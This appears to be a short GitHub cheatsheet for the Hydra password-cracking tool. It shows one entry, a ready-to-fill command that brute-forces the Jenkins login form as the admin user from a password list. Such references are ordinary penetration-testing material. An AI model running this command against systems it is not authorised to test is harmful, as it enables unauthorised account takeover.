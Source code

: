 # hydra-cheatsheet
Hydra cheatsheet for common CMS &amp; Services

### Jenkins
```
sudo hydra -l admin -P [PASSWORD_FILE] [TARGET]
\ -s [PORT] http-post-form
\ "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password"
\ -V
```
